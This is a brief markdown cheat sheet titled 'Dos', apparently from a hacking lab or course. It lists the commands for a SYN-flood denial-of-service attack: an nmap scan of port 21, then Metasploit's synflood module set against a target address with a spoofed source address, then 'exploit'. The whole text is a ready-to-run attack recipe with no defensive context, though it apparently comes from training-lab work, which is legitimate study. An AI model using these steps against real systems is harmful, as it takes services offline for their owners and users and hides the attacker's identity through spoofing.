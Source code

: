 # Dos

nmap -p 21 (Target IP address)

msfconsole

use auxiliary/dos/tcp/synflood 

show options and enter

set RHOST (Target IP Address) (here, 10.10.1.11)

set RPORT 21

set SHOST (Spoofable IP Address) (here, 10.10.1.19)

exploit

